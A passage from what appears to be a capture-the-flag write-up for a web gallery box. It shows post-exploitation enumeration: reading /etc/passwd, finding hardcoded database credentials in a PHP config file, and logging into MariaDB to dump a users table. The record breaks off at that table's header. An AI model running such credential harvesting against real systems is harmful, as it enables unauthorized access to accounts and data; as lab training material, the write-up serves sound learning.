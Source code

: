 That's much better.

I check out the **/etc/passwd** file to see which users we have on the system and look at their groups:

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash

uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),30(dip),46(plugdev)
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

Looking around the web directories I find this:

```
www-data@gallery:/var/www/html/gallery$ cat initialize.php 
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

I try to log into the database as **dev_oretnom** and it does not work, but I am able to login as **gallery_user**:

`mysql -h localhost -D gallery_db -u gallery_user -p`

And then check out the users table:

```
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 99156
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
```